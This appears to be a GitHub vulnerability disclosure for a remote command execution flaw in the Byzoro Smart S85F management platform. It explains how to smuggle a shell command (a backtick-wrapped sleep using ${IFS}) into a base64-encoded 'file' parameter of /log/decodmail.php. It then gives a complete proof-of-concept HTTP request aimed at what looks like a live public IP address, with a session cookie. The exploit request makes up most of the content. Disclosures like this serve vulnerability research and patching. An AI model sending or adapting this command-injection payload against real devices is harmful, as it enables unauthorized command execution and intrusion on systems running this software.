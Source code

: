 The Smart S85F management platform has an rce vulnerability

official website:https://www.byzoro.com/

version:Smart S85F

![WPS图片(1)](https://github.com/RCEraser/cve/assets/131632691/76e88d7a-223d-4ec2-a7b1-a88480830c86)

Construct the file parameter /etc/' sleep${IFS}10 '.pcap, and then use base64 encryption to construct the file parameter, and successfully execute the system command

POC
```
GET /log/decodmail.php?file=L2V0Yy9gc2xlZXAke0lGU30xMGAucGNhcA== HTTP/1.1
Host: 103.121.164.62:8443
Cookie: PHPSESSID=c36d5527fd784aa29748b3b1c50be7bc
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

![WPS图片(2)](https://github.com/RCEraser/cve/assets/131632691/1b0c9a57-f6b4-4e58-b3f2-c74f54bdfdfc)

![WPS图片(3)](https://github.com/RCEraser/cve/assets/131632691/6ff4f302-dd5b-4112-845f-d8b7ae8d839f)
